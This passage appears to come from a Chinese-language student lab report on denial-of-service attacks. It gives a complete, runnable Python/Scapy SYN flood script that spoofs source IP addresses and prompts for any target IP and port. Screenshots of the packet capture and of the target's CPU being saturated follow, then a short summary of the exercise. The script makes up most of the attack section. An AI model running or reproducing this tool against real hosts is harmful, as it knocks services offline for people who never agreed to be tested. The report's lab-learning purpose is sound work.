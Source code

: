 #### 攻击过程

编写代码

```python
from scapy.all import *
from scapy.layers.inet import TCP, IP
import random

def synFlood(ip="192.168.197.140", port=80):
    srcList = ['1.1.1.1', '2.2.2.2', '3.3.3.3', '4.4.4.4', '5.5.5.5']
    for sPort in range(1024, 65535):
        index = random.randrange(5)
        # 构造IP层和TCP层
        ipLayer = IP(src=srcList[index], dst=ip)
        tcpLayer = TCP(sport=sPort, dport=port, flags="S")
        # 构造完整的数据包
        packet = ipLayer / tcpLayer
        # 发送数据包
        send(packet)
        print("正在进行synflood攻击")

if __name__ == '__main__':
    # target_ip = "192.168.197.140"
    # target_port = 80
    print("-----------------------------------------------------------------")
    target_ip = input("请输入IP地址：")
    target_port = input("请输入端口号：")
    target_port = int(target_port)
    print('正在启动synflood攻击\n靶机ip:{}  靶机端口:{}'.format(target_ip,target_port))
    synFlood(target_ip,target_port)

```

开启程序
![image-20231024112626314](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231024112626314.png)

可以看到一直向靶机对于端口发送syn包。进行抓包。

![image-20231024112712938](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231024112712938.png)



![image-20231024112817179](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231024112817179.png)

![image-20231024113108998](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231024113108998.png)

**（未进行攻击的靶机cpu进程情况）**

![image-20231024113007266](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231024113007266.png)

**（进行synflood攻击后的靶机cpu进程情况）**

可以看到我们随机从列表中取ip进行伪造ip进行synflood攻击。我们也可以看到对于包的内容。并且我们可以看到靶机的cpu性能已经被占满了。通过以上的例子，我们看出**完成了对靶机的synflood攻击通过python编程的方式并且可以伪造源ip。**





##  实验总结

​	在这次实验中，我们进行了一系列与 DoS 攻击相关的操作，包括使用不同的工具和编写自己的攻击程序。通过使用工具如 hping3、 ，我们验证了 SYN Flood 和 UDP Flood 攻击的原理，观察了其对靶机的影响。我们还编写了自己的 SYN Flood 攻击程序，使用 Python 和 Scapy 库实现了伪装源地址的攻击。

​	这个实验让我们更深入地了解了 DoS 攻击的工作原理，包括如何占用靶机资源、使其无法提供服务。通过网络抓包工具，我们能够清晰地观察到攻击过程中的数据包交换情况。最终，我们学到了如何分析和防范这类攻击，以维护网络的安全性。
